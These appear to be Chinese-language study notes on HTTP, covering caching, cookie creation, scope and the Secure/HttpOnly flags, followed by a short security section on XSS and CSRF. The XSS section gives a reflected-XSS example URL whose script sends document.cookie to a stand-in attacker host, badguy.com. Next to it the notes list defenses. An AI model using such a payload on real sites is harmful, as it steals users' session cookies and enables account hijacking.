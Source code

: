 

# http
- 网络通讯协议

### 客户端user-agent
- 可以为用户发起网络请求的工具，大部分由浏览器扮演

### web服务器
- 请求的另一端，可以是一个服务器组成的集群，也可以是一个向其他计算机请求的软件

### proxy
- 请求中，在应用层转发了http信息的程序，我们叫做代理，表现的功能有
- 缓存，过滤，负载均衡，权限控制，登录存储历史信息

### http性质
-  1.  简单，可添加
-  2.  http无状态，有会话
-  3.  两次请求没有必然联系（除非加入cookies，创建一个会话共享上下文信息）

### 浏览器缓存
- 适用于：定期或者频繁更新的资源
- 客户端和浏览器端规约一个缓存时间
- 利用cache-control，expires，last-modified等计算过期时间

### 资源加速
- 适用于：长期不更新，但是一旦更新就希望尽快上线
- 使用时在文件名后面加上一个版本号，或者hash，时间戳等等

### cookies
- cookies使http记录状态变成了可能，主要作用：
- 会话状态管理
- 个性化设置
- 浏览器行为跟踪

### 创建cookies
```js
response.setHeader('Set-Cookie', ['type=ninja', 'language=javascript']);
```
- 创建cookie后，对该服务器的每一次请求，浏览器都会将之前保存的cookie发送给服务器

### 会话期cookie
- 不需要指定过期时间和有效期

### 持久cookie
- 可以指定一个有效期和有效时间

### Secure; HttpOnly
- 这样设置了，cookie就无法被客户端js所调用

### cookie的作用域
- 通过domain和path来指定主机名和url路径

### js访问cookie
```js
document.cookie = 'tastyCookie=strawberry'
```








## 安全问题

### 会话劫持和XSS
XSS攻击就是攻击者在网页中嵌入恶意脚本

那么如何嵌入脚本呢：
- Reflected
  <%Reequest.QueryString("term")%>
  在http://victim.com/search.asp后面附上
  http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>

防止方法：
- 设置httpOnly，防止cookie被盗取
- 加入ip或者user-agent进行对比
- web app

### 跨站请求伪造CSRF
CSRF攻击就是提用户发起请求，前提是不知道cookie







